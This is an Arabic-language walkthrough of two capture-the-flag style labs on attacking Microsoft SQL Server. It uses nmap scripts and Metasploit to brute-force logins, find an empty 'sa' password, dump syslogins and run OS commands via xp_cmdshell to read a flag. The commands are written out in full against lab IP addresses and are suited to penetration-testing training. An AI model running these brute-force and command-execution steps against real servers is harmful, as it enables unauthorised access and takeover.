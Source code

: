 الان طلعنا معلومات عن البورت مو مره مهم بس عطاك الاصدار ممكن تبحث عن الـCVEs

فيه سكربت ثاني الي هو يسوي بروت فورس نفس هايدرا بس عن طريق الـ nmap script
[nmap -sV --script ms-sql-brute --script-args mssql.instance-port=1433 userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-passwords.txt 10.6.26.48 -p 1433]

طبعا حدننا الوردليست الي نبي نستخدمها لليوزر والباسورد
نلاحظ انه حصلنا 3 يوزرات مع باسورداتهم 

فيه برضو نفس الشي انه نشوف هل فيه يوزر الديفولت وبدون باسورد او لا 
اليوزر الديفلوت sa
[nmap -p 1433 --script ms-sql-empty-password 10.6.26.48]
ونشوف انه حصل اليوزر وفعلا بدون باسورد فنقدر نسجل دخول فيه

طبعا السكربت هذا ينفذ لك امر الاستعلام في sql
تعطيه كويري معين ويعطيك النتيجه
[nmap -p 1433 --script ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query="SELECT * from master..syslogins" 10.6.26.48 -oN OUTPUT.txt]
-oN = عشان يحفظ لنا المخرجات في ملف بتنسيق معين 
نشوف انه عرض لنا النتيجة وكذالك سوا لنا ملف بالاسم الي حددناه وبنفس الفورمات الي حددناه

وفيه كذالك الفنكشن الي اسمها xp_cmdshell
لو كانت مفعله يمدي تاخذ reverse shell 
[nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="whoami" 10.6.26.48 ]
نلاحظ انه نفذ لنا الامر وطبع لنا المخرجات
طبعا باي ديفولت السكربت ينفذ لك امر ipconfig /all 
لو حددت امر معين نفس الي سويناه بينفذ لك الامر الي تكتبه

طبعا ناخذ الفلاق بنفس الطريقة
[nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="dir" 10.6.26.48 ]
الان نحصل الفلاق في مسار معين لابد تبحث عنه لكن احنا اختصار للوقت حصلناه هنا
[nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="type c:\flag.txt" 10.6.26.48 ]


---

راح نبداء باللاب الثاني الي هو 

Recon:MSSQL: Metasploit
-----------------------------------|
طبعا نفس الافكار الي قبل لكن باداة مختلفه الي هي MSFconsole

طبعا معطينا الايبي هنا راح نسوي nmap scan
[nmap -sV 10.0.20.101]
نلاحظ ان البورت مفتوح وكذالك الخدمة لي عليه هي MSSQL 
port = 1433

راح نستخدم نفس السكربت الي قبل عشان نشوف الاصدار ومعلومات ثانيه ممكن تفيدنا
[nmap --script ms-sql-info -p 1433 10.0.20.101]

وحصلنا انه شغال على Microsoft SQL Server 2019

راح نشغل الميتاسبلويت ونشوف بعض الموديول الي يساعدنا
نفتح الفريم وورك بالامر التالي
[msfconsole]
ونستخدم هذا الموديول
[use auxiliary/scanner/mssql/mssql_login] هذا الموديول راح يسوي بروت فورس للي تحدده سواء يوزر او باسورد او كلهم
والان نشوف وش المتغيرات المطلوبه مننا عن طريق هذا الامر
[show options]
نحتاج نعيطه RHOST , USER_FILE , PASS_FILE
[set RHOSTS 10.0.20.101]
[set USER_FILE /root/Desktop/wordlist/common_users.txt] الليسته حقت اليوز
[set PASS_FILE /root/Desktop/wordlist/100-common-passwords.txt] الليسته حقت الباسورد
[set VERBOSE false] عشان مايعطينا كل تجاربه ويسوي زحمه بالتيرمنال
[exploit] or [run]
